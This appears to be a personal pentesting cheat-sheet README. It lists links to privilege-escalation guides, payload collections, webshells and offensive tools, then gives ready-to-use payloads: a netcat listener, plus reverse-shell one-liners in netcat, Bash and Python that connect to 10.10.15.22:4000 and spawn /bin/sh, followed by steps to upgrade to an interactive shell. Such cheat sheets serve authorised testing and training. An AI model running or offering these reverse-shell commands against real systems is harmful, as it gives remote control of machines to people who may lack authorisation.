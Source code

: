 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)

## Payloads
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)

## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)

## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
